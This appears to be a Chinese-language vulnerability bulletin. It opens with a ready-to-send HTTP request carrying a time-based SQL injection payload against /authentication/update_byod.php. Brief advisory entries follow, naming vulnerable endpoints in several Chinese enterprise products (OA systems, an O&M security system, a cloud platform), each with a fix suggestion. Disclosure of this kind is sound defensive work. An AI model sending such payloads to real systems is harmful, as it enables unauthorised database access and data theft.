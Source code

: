 authentication/update_byod.php接口存在SQL注入漏洞  

```
POST /authentication/update_byod.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Accept-Encoding: gzip, deflate
Connection: close


update=1&macAddress=1' AND (SELECT 2222 FROM (SELECT(SLEEP(5)))ogZo) AND 'NXsn'='NXsn&oldMacAddress=
```

  
  
漏洞名称：  
深信服运维安全管理系统全版本命令执行漏洞  
  
漏洞描述；  
  
攻击者可利用未公开漏洞绕过认证，通过特定接口实现远程命令执行，获取服务器控制权限  
  
修复建议：  
  
1.立即联系厂商获取安全补丁；2.限制管理端口访问权限；  
  
  
漏洞名称：  
泛微OA全版本目录信息泄露  
  
漏洞描述：  
  
 jqueryFileTree.jsp目录信息泄露漏洞，  
攻击者通过dir参数遍历服务器目录导致敏感信息泄露  
  
修复建议：  
  
删除或重命名jqueryFileTree.jsp  
  
  
漏洞名称：  
安科瑞智能环保云平台  
  
漏洞描述：  
  
/getmonitorrealdata接口存在SQL注入漏洞，可获取数据库权限  
  
修复建议：  
  
部署SQL注入防护产品  
  
  
漏洞名称：  
金和OA全版本  
SQL注入漏洞  
  
漏洞描述：  
  
/C6/JHSoft.Web.DailyTaskManage/TaskTreeJsoN.aspx存在SQL注入漏洞  
  